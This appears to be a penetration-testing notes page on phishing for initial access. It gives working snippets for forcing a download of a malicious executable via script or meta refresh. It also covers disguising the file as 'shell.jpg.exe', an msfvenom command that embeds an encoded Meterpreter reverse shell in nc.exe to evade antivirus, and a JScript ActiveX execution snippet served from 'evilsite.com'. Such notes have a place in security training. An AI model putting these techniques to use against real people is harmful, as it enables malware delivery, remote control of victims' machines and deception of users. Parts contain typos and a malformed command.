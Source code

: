 # Social Engineering - Phishing

Gaining initial access to a network is often done using different kinds of social engineering attacks.

## Auto-download a malicious file

The techical part is not really that difficult here. In order to auto-download a file you just add this script to the malicious webpage

```
<script> document.location.href = 'shell53.exe'; </script>
```

Another way to do it is like this

```
<html>
<head>
<meta http-equiv="refresh" content="0; url=shell53.exe">
</head>
</html>
```

Of course the user will have to accept to download the file, unless the user has previously checked in the box automatically download. The user must then click the file for it to execute. This is where the social engineering part comes in, you really must trick the user into executing the file.

### Change the filename

Since windows by default remove the filename you can call your file shell.jpg.exe, and once downloaded onto the machine windows will display it as "shell.jpg".

### Embed malicious code in legitimate file

It is however very likely that this will be picked up by a antivirus.

```
msfvenom -a x86 --platform windows -x nc.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lhost=53 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o ncMalicious.exe
```

## Autodownload a malicious javascript-file

Just like we can download an exe for a user to can also make that user download a javascript file. Since javascript files can execute commands on windows.

```
var oShell = new ActiveXObject("Shell.Application");
var commandtoRun = "C:\\Windows\\system32\\calc.exe";
oShell.ShellExecute(commandtoRun,"","","open","1");
```

```
http://evilsite.com/file.js
```

This code can be modified to greate a wget-script and then download and execute a script.


## Phishing

The most common tool for social engineering is to use Social Engineering Toolkit. SET. It comes as default in Kali. Run it like this:


```
setoolkit
```


## Word/excel makros

An explanation of how to createa malicious makro-wordfile.

https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/


## Reference:
https://www.youtube.com/watch?v=NTdthBQYa1k